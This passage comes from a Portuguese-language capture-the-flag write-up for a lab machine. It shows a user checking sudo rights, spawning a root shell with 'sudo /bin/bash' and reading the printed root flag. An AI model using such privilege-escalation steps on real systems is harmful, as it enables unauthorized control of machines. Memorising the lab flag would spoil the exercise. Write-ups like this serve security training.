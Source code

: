 ```bash
xavi@ip-10-10-125-151:~$ sudo -l
[sudo] password for xavi: 
Matching Defaults entries for xavi on ip-10-10-125-151:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User xavi may run the following commands on ip-10-10-125-151:
    (ALL : ALL) ALL

```

Agora, vou spawnar um shell como root.

```bash
xavi@ip-10-10-125-151:~$ sudo /bin/bash
root@ip-10-10-125-151:/home/xavi$ 

```

E obter a flag do root

```bash
root@ip-10-10-125-151:~$ ls -la
total 52K
drwx------  7 root root 4.0K Jul 20 11:39 .
drwxr-xr-x 18 root root 4.0K Oct 18 16:07 ..
-rw-r--r--  1 root root 3.2K Jun 21  2023 .bashrc
drwx------  2 root root 4.0K Jun  2  2023 .cache
-rw-------  1 root root   35 Mar 29  2024 .lesshst
drwxr-xr-x  3 root root 4.0K Jun 21  2023 .local
lrwxrwxrwx  1 root root    9 Aug 18  2023 .mysql_history -> /dev/null
drwxr-xr-x  4 root root 4.0K Aug 16  2023 .phpbrew
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r-----  1 root root   33 Aug 16  2023 root.txt
-rw-r--r--  1 root root   75 Aug 17  2023 .selected_editor
drwx------  3 root root 4.0K Jun 21  2023 snap
drwx------  2 root root 4.0K Jul 20 11:16 .ssh
-rw-rw-rw-  1 root root 1.5K Jul 20 11:39 .viminfo
root@ip-10-10-125-151:~$ cat root.txt 
bf89ea3ea01992353aef1f576214d4e4
root@ip-10-10-125-151:~$ 

```
